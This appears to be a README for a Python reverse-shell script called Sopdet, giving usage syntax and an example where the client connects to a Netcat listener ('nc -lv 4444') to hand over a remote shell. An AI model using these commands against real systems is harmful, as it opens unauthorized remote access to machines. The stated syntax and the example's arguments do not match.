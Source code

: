 # Sopdet
A simple multi-platform reverse shell written in Python

Sopdet is a client-side Python script that when run on a Linux/Unix or Windows system will open up a shell on a remote server running Netcat as a listener on the specified port.

The only requirement is that the client has Python installed and the server has Netcat and is able to accept inbound connections.

## Accepted syntax:
`python sopdet.py <IP address> <port>`

## Example:

### Client-side

`$ python sopdet.py 192.168.0.2 4444 linux`

`[*] Sobdet client connected to 192.168.0.2`

### Server-side

`$ nc -lv 4444`

`Connection from 192.168.0.3 65095 received!`
